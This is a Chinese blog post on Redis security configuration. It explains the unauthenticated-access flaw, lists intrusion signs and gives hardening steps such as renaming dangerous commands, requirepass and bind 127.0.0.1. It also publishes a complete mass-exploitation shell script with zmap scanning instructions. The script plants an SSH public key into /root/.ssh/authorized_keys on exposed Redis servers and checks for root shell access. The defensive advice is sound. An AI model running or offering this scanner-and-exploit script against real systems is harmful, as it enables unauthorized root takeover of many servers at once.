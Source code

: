 ```yaml
---
title: Redis 安全配置
date: 2018-06-05 16:05:50
tags: CSDN迁移
---
```

  ### 一、前言

前段时间，在做内网影响程度评估的时候写了扫描利用小脚本， 扫描后统计发现，内网中60%开放了redis6379端口的主机处于可以被利用的危险状态，因为都是一些默认配置造成的 考虑到本社区大部分开发者都会使用redis，特此分享下以便大家可以对自己公司的内网进行一个排查。


### 二、漏洞介绍


> Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。
> 
> 
入侵特征：


  1. Redis 可能执行过 FLUSHALL 方法，整个 Redis 数据库被清空
  2. 在 Redis 数据库中新建了一个名为 crackit（网上流传的命令指令） 的键值对，内容为一个 SSH 公钥。
  3. 在 /root/.ssh 文件夹下新建或者修改了 authorized_keys 文件，内容为 Redis 生成的 db 文件，包含上述公钥
### 三、修复建议


#### 1.禁止一些高危命令

修改 redis.conf 文件，添加


```
rename-command FLUSHALL ""
rename-command CONFIG   ""
rename-command EVAL     ""

```
来禁用远程修改 DB 文件地址


#### 2.以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆


#### 3.为 Redis 添加密码验证

修改 redis.conf 文件，添加


```
requirepass mypassword

```

#### 4.禁止外网访问 Redis

修改 redis.conf 文件，添加或修改


```
bind 127.0.0.1

```
使得 Redis 服务只在当前主机可用


### 四、扫描工具


#### 1 使用说明


```
#以Ubuntu为例
su

# Requirements
apt-get install redis-server expect zmap

git clone https://github.com/qingxp9/yyfexploit
cd yyfexploit/redis

# 扫描6379端口
# 如果你要扫内网，把/etc/zmap/zmap.conf中blacklist-file这一行注释掉
zmap -p 6379 10.0.0.0/8 -B 10M -o ip.txt

# Usage
./redis.sh ip.txt

```
最后，将会生成几个txt文件记录结果 其中： runasroot.txt 表示redis无认证，且以root运行 noauth.txt 表示redis无认证，但以普通用户运行 rootshell.txt 已写入公钥，可直接以证书登录root用户

像这样：


> ssh -i id_rsa root@x.x.x.x
> 
> 

#### 2 工具源代码

就贴下代码吧，各位大牛请在家长陪同下观看


```
#!/bin/sh
 if [ $# -eq 1  ]
 then
   ip_list=$1

   ##create id_rsa
   echo "****************************************Create id_rsa file"

   expect -c "
     spawn ssh-keygen -t rsa -f id_rsa -C \"yyf\"
     expect {
         \"*passphrase): \" {
             exp_send \"\r\"
             exp_continue
         }
         \"*again: \" {
             exp_send \"\r\"
         }
         \"*y/n)? \" {
             exp_send \"n\r\"
         }
     }
     expect eof
   "

   echo "\n\n****************************************Attack Targets"
   touch noauth.txt runasroot.txt rootshell.txt haveauth.txt
   i=0
   cat $ip_list | while read ip
   do
     i=`expr $i + 1`;
     #write id_rsa.pub to remote
     echo "*****${i}***connect to remote ${ip} redis "

     expect -c "
       set timeout 3
       spawn redis-cli -h $ip config set dir /root/.ssh/
       expect {
         \"OK\"                        { exit 0 }
         \"ERR Changing directory: Permission denied\"         { exit 1 }
         timeout                       { exit 2 }
         \"(error) NOAUTH Authentication required\"         { exit 3 }
       }
     "

     case $? in
         0)  echo "run redis as root"
             echo $ip >> noauth.txt
             echo $ip >> runasroot.txt
         ;;
         1)  echo "not run redis as root\n\n\n"
             echo $ip >> noauth.txt
             continue
         ;;
         2)  echo "connect timeout\n\n\n"
             continue
         ;;
         3)  echo "Have Auth\n\n\n"
             echo $ip >> haveauth.txt
             continue
         ;;
     esac

     (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     cat foo.txt | redis-cli -h $ip -x set 1
     redis-cli -h $ip config set dir /root/.ssh/
     redis-cli -h $ip config set dbfilename "authorized_keys"
     redis-cli save

     #login test
     echo "#try to login"
     expect -c "
       set timeout 5
       spawn ssh -i id_rsa root@$ip echo \"yyf\"
       expect {
         \"*yes/no\"     { send \"yes\n\"}

         \"*password\"   { send \"\003\"; exit 1 }
         \"yyf\"         { exit 0 }
         timeout         { exit 2 }
       }
       exit 4
     "

     exitcode=$?

     if [ $exitcode -eq 0 ]
     then
       echo "---------------${ip} is get root shell"
       echo $ip >> rootshell.txt
     fi

     echo "\n\n\n"
   done

   echo "##########Final Count##########"
   wc -l $ip_list
   echo "----------"
   wc -l noauth.txt
   wc -l runasroot.txt
   wc -l rootshell.txt
   echo "----------"
   wc -l haveauth.txt

 else
   echo "usage: ./redis.sh ip.txt"
 fi

```

### 五、相关参考


  1. [http://zone.wooyun.org/content/23858](http://zone.wooyun.org/content/23858)
  2. [https://blog.islandzero.net/2015/11/11/redis-crackit/](https://blog.islandzero.net/2015/11/11/redis-crackit/)
  3. [http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
--------
如果代码有写得不合理的地方，还望指出哈

   
 
